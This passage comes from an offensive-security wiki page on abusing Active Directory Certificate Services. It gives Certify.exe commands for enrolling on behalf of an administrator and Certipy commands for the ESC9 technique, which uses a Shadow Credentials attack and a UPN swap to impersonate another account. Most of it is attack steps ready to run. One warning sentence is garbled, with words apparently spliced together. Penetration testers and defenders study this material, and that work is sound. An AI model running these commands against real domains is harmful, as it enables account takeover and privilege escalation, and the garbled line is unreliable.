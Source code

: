 ```batch
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
```

Then, the issued certificate can be used to request another certificate permitting `Client Authentication` on behalf of another user.

```batch
Certify.exe request /ca:'domain\ca' /template:"User" /onbehalfon:DOMAIN\Admin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```
{% endtab %}
{% endtabs %}

### No security extension (ESC9)

To understand this privilege escalation, it is recommended to know how certificate mapping is performed. It is presented in [this section](certificate-templates.md#certificate-mapping).

If the certificate attribute `msPKI-Enrollment-Flag` contains the flag `CT_FLAG_NO_SECURITY_EXTENSION`, the `szOID_NTDS_CA_SECURITY_EXT` extension will not be embedded, meaning that even with `StrongCertificateBindingEnforcement` set to `1`, the mapping will be performed similarly as a value of `0` in the registry key.

Here are the requirements to perform ESC9:

* `StrongCertificateBindingEnforcement` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag (`0x4`)
* The template contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
* The template specifies client authentication
* `GenericWrite` right against any account A to compromise any account B

{% hint style="warning" %}
Acate can then be used with to obtain a TGT and authenticat the time of writting (06/08/2022), there is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` or the `CertificateMappingMethods` values. It is worth to try the attack hopping the keys are misconfigured.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC9 scenario.

In this scenario, **user1** has `GenericWrite` against **user2** and wants to compromise **user3**. **user2** is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

First, the **user2**'s hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of **user2** is changed to **user3**.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```
